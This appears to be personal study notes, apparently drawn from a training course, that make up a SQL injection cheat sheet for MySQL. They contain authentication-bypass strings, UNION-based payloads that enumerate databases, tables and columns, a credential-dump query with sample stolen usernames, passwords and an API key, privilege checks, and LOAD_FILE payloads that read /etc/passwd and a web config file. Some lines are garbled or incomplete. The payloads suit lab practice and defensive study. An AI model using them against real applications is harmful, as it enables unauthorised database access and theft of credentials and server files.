 
SELECT * FROM logins WHERE username='admin' AND password = '47bce5c74f589f4867dbd57e9ca9f808';

admin') or '1'='1'-- -

SELECT * FROM logins WHERE (username='admin' AND id > 1)-- - AND password = '47bce5c74f589f4867dbd57e9ca9f808';

test' OR id = 5)-- -
toma' OR id = 
test' OR id = 4)-- -

# dump name databases

UNION select 1,database(),2,3-- -

## dump databases;
this command mysql dump all data;
		UNION select 1,2,SCHEMA_NAME,4 FROM INFORMATION_SCHEMA.SCHEMATA-- - 
		
example:
		UNION select 1,2,schema_name,4 from INFORMATION_SCHEMA.SCHEMATA-- -
		DATABSES="information_schema,mysqL,performance_schema,backup,dev"

## dump tables

	' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='name_db'-- -

example

	' union select 1,table_name,table_schema,4 from information_schema.tables where table_schema='dev'-- -
	TABLES="framework,pages,credentials,posts"

## dump columns

	' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='name_table'-- -

example
	' union select 1,column_name,table_name,table_schema from information_schema.columns where table_name='credentials'-- -

COLUMNS="username,password"

## dump data

	UNION select 1, username, password, 4 from dev.credentials-- -
example :
	union select  1,username,password 4 from dev.credentials-- -
OR	
	union select  1,2,group_concat(username,":",password),4 from dev.credentials-- -

admin	password	
dev_admin	admin123	
api_key	MzkyMDM3ZGJiYTUxZjY5Mjc3DFNGFDmQ2YFGDF2VmYjZkZDU0NmHGFDQgIC0K	
software_engineer	3920aaaaadfsdf37dbba51f692776d6cefb6dd546d

if want understand a lot information linke website mysql
https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html

## Reading Files:

Privileges:eading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in MySQL, the DB user must have the FILE privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

## DB User:
	SELECT USER()
	SELECT CURRENT_USER()
	SELECT user from mysql.user

command : 
		UNION SELECT 1, user(), 3, 4-- -
		UNION SELECT 1, user, 3, 4 from mysql.user-- -

## User Privileges
Now that we know our users, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

SELECT super_priv FROM mysql.user

example:
	
		UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

## Notes:
 		UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
		THis payload return in page ('Y') which means YES, indicating superuser privileges. We can also dump other privileges we have directly

SELECT sql_grants FROM information_schema.sql_show_grants

Once again, we can add WHERE user="root" to only show our current user root privileges. Our payload would be:

' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -
return in page YES or Y 

all of the possible privileges given to our current user:


## LOAD_FILE:
		SELECT LOAD_FILE('/etc/passwd');
	example:
	 	UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

	 	Another Example:
	 		We know that the current page is index.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/index.php
	 		UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
